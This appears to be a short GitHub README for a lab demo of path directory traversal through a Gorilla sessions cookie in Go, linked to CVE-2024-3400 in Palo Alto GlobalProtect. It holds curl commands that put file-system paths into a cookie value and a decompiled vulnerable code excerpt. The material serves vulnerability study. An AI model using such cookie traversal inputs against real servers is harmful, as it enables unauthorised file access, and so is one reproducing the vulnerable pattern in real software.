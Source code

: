# A Gorilla Session Vulnerable to Path Directory Traversal

```
export SESSION_KEY=gorilla
```

```
go run escapezoo.go
```

# Path Directory Traversal

```
curl --cookie "zoo=$PREFIX/tmp" http://localhost:8080
```

```
curl --cookie "zoo=$HOME/" http://localhost:8080
```

# Palo Alto Global Protect CVE-2024-3400 related vulnerability

```
if ( os_IsNotExist(fmta._r2) )
      {
        store_8b = (``github_com_gorilla_sessions_Store_0)``net_http__ptr_Request_Context(r);
        ctxb = store_8b.tab;
        v52 = runtime_convTstring((string)s->path);
        v6 = (_1_interface_ *)runtime_newobject((runtime__type_0 *)&RTYPE__1_interface_);
        v51 = (interface__0 *)v6;
        (*v6)[0].tab = (void *)&RTYPE_string_0;
        if ( *(_DWORD *)&runtime_writeBarrier.enabled )
          runtime_gcWriteBarrier();
        else
          (*v6)[0].data = v52;
        storee.tab = ctxb;
        storee.data = store_8b.data;
        fmtb.str = (uint8 *)"folder is missing, create folder %s";
        fmtb.len = 35LL;
        fmt_16a.array = v51;
        fmt_16a.len = 1LL;
        fmt_16a.cap = 1LL;
        paloaltonetworks_com_libs_common_Warn(storee, fmtb, fmt_16a);
        err_1 = os_MkdirAll((string)s->path, 0644u);
```

[https://labs.watchtowr.com/palo-alto-putting-the-protecc-in-globalprotect-cve-2024-3400/]
